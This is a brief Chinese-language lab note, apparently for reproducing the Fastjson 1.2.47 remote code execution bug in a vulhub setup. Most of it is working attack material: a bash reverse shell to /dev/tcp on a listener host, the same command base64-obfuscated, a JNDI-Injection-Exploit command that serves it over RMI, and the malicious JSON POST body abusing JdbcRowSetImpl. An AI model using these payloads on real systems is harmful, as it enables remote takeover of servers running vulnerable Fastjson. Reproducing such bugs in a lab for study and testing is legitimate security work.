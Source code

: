 # vulhub:

找到fastjson1.2.47rce

```sh
docker-compose up -d
nc -lvp 9443
```



# attacker

反弹shell

```sh
bash -i >& /dev/tcp/192.168.211.129/9443 0>&1
```

加密

```sh
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xMjkvOTQ0MyAwPiYx}|{base64,-d}|{bash,-i}
```

最后的ip是apache服务器的，172.26.39.196启动apache命令`/usr/local/apache-tomcat-8.5.69/webapps/ROOT# ./startup.sh `

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xMjkvOTQ0MyAwPiYx}|{base64,-d}|{bash,-i}" -A "172.26.39.196"
```

起监听

```bash
nc -lvp 9443
```

# post:

Content-Type:application/json

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://172.26.39.196:1099/mmwktn",
        "autoCommit":true
    }
}

其中dataSourceName是JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar产生的jdk1.8的rmi地址
